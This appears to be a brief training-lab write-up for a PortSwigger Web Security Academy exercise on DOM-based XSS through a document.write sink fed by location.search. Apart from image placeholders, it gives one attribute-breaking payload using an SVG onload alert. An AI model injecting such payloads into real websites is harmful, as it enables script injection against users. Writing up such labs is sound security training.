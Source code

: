# Lab: DOM XSS in document.write sink using source location.search

URL: https://0a81004b04f3d4aa80737b9200ae00c7.web-security-academy.net/

![](./Images/img1.png)

## Testing the fields:

![](./Images/img2.png)

## Preparation:

![](./Images/img3.png)

We have to close the tag before we attack using XSS.

## Exploitation:

![](./Images/img4.png)

![](./Images/img5.png)

![](./Images/img6.png)

Payload:

```
"><svg onload=alert("XSS")>
```